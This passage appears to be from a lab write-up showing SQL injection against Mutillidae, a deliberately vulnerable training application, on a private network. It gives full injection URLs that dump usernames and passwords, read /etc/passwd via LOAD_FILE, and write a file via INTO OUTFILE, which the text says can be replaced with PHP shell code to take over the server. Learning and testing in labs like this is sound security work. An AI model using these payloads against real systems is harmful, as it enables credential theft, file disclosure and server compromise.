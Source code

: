 Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.30.png)
Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.31.png)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).
